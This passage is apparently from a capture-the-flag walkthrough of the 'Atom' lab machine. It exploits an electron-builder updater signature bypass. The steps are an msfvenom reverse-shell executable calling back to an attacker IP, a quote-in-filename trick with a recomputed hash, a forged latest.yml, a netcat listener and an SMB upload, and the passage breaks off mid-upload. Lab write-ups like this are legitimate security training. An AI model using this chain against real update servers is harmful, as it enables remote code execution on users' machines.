 After a quick google, we get a blog describing about RCE via electron-builder updater. Read the blog to understand how this vulnerability will used in our condition.

\## Vulnerability link

[https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

# Initial Access

Let’s build our reverse executable via msfvenom and name it as up'date.exe

\## Create reverse shell

```swift
⛩\> msfvenom -p windows/x64/shell_reverse_tcp -f exe lhost=10.10.14.42 lport=1234 -o "up'date.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: up'date
```

Now we need to generate signature hash of this up’date.exe. This can be easily achieved by using a filename containing a single quote and then by recalculating the file hash to match the attacker-provided binary.

\## Create signature

```swift
⛩\> shasum -a 512 up\'date.exe | cut -d " " -f1 | xxd -r -p | base64
jAUiMEfUaQSD6tvtKmjG4kk9fJo/lyZBbP0/16id9lPwdyqCw5rKvbvJaCbmLE/1QMukQ8WBn/hDdL81I/UOqQ==
```

Now create a YML file and add the details of the file name, signature and version.

\## Create yml file

```swift
⛩\> cat latest.yml
version: 1.0.1
path: up'date.exe
sha512: jAUiMEfUaQSD6tvtKmjG4kk9fJo/lyZBbP0/16id9lPwdyqCw5rKvbvJaCbmLE/1QMukQ8WBn/hDdL81I/UOqQ==
```

\## Set netcat listener

```swift
⛩\> nc -lvnp 1234
listening on [any] 1234 ...
```

Now we need to upload executable and yml file to SMB client folder.

\## Upload reverse shell and yml

```swift
⛩\> smbclient //atom.htb/Software_updates -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 20 02:52:08 2021
  ..                                  D        0  Tue Apr 20 02:52:08 2021
  client1                             D        0  Tue Apr 20 02:52:08 2021
  client2                             D        0  Tue Apr 20 02:52:08 2021
  client3                             D        0  Tue Apr 20 02:52:08 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021

		4413951 blocks of size 4096. 1364219 blocks available
smb: \> cd client1
smb: \client1\> put up'date.exe
```